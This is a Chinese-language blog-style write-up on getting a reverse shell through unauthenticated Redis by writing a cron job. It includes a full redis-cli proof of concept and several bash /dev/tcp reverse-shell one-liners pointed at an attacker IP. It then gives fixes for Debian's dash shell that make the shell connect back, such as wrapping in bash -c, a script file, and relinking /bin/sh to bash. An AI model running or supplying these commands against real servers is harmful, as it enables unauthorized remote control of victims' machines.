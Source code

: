 # redis未授权反弹shell失败解决

受害机器：kali；攻击主机：mac；

注意，这里写的是**利用定时任务反弹shell**会出现的问题。

最开始在网上找的poc

```shell
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
OK
# /var/spool/cron/crontabs
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

很随意的一个poc，会遇到各种各样的问题。

执行完之后，使用`crontab -l`发现并没有定时任务执行，这是因为reids写入的定时文件格式有误，据说ubuntu、Debian都有这个问题，centos可以成功复现。不过今天的重点并不在此。

重点是**用crontab反弹shell**。

直接在受害机上使用`crontab -e`写入定时任务，根据最开始网上的那篇博客，应该这么写

```sh
# 写入定时任务
* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n
# 查看定时任务是否执行
crontab -l
```

然后发现执行了，但是shell没有反弹到mac上；

怎么办？

```sh
# 首先查看系统日志
$ tail -f /var/log/syslog
# 结果如下；表示crontab执行出错
CRON[55318]: (CRON) info (No MTA installed, discarding output)

# 写入如下任务---查看crontab的错误日志
* * * * * '/bin/bash -i >& /dev/tcp/192.168.63.128/7999 0>&1'>/tmp/error.txt 2>&1
# 结果如下
$ cat /tmp/error.txt
 bash: cannot set terminal process group (6868): Inappropriate ioctl for device
 bash: no job control in this shell
 bash: >& /dev/tcp/192.168.63.128/7999 0>&1: No such file or directory
```

### 执行bash命令

/bin/bash没有被找到；crontab使用的shell环境是/bin/sh；

Debian下，`sh->dash`，也就是说，要用dash去把反弹bash，这是出错的根本原因。

```shell
# bash -i >& /dev/tcp/192.168.63.130/7777 0>&1           
dash: 2: Syntax error: Bad fd number
# ^C
# /bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1
dash: 3: Syntax error: Bad fd number
# /bin/bash -c >& /dev/tcp/192.168.63.130
```

> 但是dash为什么不能反弹bash？

所以，其实可以使用`bash -c`执行命令，而这个命令是反弹交互式bash shell；

```shell
bash -c "bash -i >& /dev/tcp/192.168.63.130/7777 0>&1"
```

也就是，定时任务反弹shell可以写成这样

```shell
* * * * * *  bash -c "bash -i  >&/dev/tcp/192.168.63.130/7777 0>&1"
```

### 使用脚本文件

```shell
# 编辑shell脚本
$ vim /temp/test.sh
# 文件内容如下
# !/bin/bash
/bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1

# 加上执行权限
$ chmod +x /tmp/test.sh

# 修改计划任务
* * * * * * /tmp/test.sh
```

### 修改sh指向

让sh指向bash

```shell
ln -s -f bash /bin/sh
```


### 参考博客
- [很有用的博客](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [某云玩家博客](https://p0sec.net/index.php/archives/69/)

